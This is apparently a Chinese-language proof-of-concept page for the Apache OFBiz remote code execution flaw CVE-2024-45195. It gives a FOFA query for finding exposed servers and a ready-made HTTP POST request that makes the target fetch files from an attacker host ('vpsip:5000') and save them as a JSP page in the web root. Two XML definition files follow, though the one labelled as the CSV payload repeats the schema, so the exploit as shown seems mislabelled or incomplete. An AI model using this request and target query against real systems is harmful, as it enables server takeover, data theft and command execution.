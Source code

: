 # Apache-OFBiz远程代码执行漏洞(CVE-2024-45195)

Apache OFBiz 远程代码执行漏洞(CVE-2024-45195)，该漏洞允许未经身份验证的远程攻击者通过SSRF漏洞控制请求从而写入恶意文件。攻击者可能利用该漏洞来执行恶意操作，包括但不限于获取敏感信息、修改数据或执行系统命令，最终可导致服务器失陷。

## fofa

```yaml
app="Apache_OFBiz"
```

## poc

```javascript
POST /webtools/control/forgotPassword/viewdatafile HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Type: application/x-www-form-urlencoded
 
DATAFILE_LOCATION=http://vpsip:5000/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://vpsip:5000/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

### rcereport.csv

```xml-dtd
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
            <record name="rceentry" limit="many">
                <field name="jsp" type="String" length="605" position="0"></field>
            </record>
        </data-file>
</data-files>
```

### rceschema.xml

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
            <record name="rceentry" limit="many">
                <field name="jsp" type="String" length="605" position="0"></field>
            </record>
        </data-file>
</data-files>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409081931358.png)
